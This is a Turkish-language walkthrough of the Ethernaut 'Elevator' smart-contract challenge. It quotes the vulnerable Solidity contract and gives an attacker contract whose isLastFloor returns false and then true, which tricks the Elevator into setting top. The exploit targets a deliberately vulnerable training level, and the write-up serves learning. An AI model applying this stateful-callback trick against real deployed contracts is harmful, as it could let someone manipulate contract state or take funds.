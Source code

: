 # ETHERNAUT SORU 11: Elevator

> This elevator won't let you reach the top of your building. Right?
>
>##### Things that might help:
>
>-   Sometimes solidity is not good at keeping promises.
>-   This `Elevator` expects to be used from a `Building`.



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Bu soruda çağırıldığına onu çağıran adresteki bir fonksiyonu çağırmak isteyen bir kontrakt görüyoruz. Bu fonksiyon kendisine verilen `floor` sayısına `boolean` bir cevap vermelidir. İlk cevabı negatif, 2. cevabı ise pozitif olacaktır. 

Bizim amacımız ise bu şartları sağlayan bir fonksiyon yazıp `top` değişkenine pozitif değeri verdirtmek. Bunun için şöyle bir kontrakt yazabiliriz.

```solidity
// SPDX-License-Identifier: MIT
pragma  solidity  ^0.8.0;
import  "chall.sol";

contract Solution is Building{
bool ilk_mi=true;
Elevator elev;
function isLastFloor(uint256)  external  returns  (bool){
	if(ilk_mi){
		ilk_mi=false;
		return  false;
	}

	return  true;
}

function basla(address victim)  public{
	elev = Elevator(victim);
	elev.goTo(5);
  
	}
}
```
Bu kod basla fonksiyonu çağırıldığında hedef kontraktın `goTo` fonksiyonunu 5 değerini vererek çalıştırıyor(istediğimiz değeri verebiliriz fark etmez). Böylelikle o hedef kontrakt bizim `isLastFloor` fonksiyonumuzu çağırmış oluyor. Bu fonksiyon ilk çağırıldığında olumsuz yanıt verirken 2. de ise olumlu yanıt veriyor. Böylelikle soru çözülmüş oluyor.
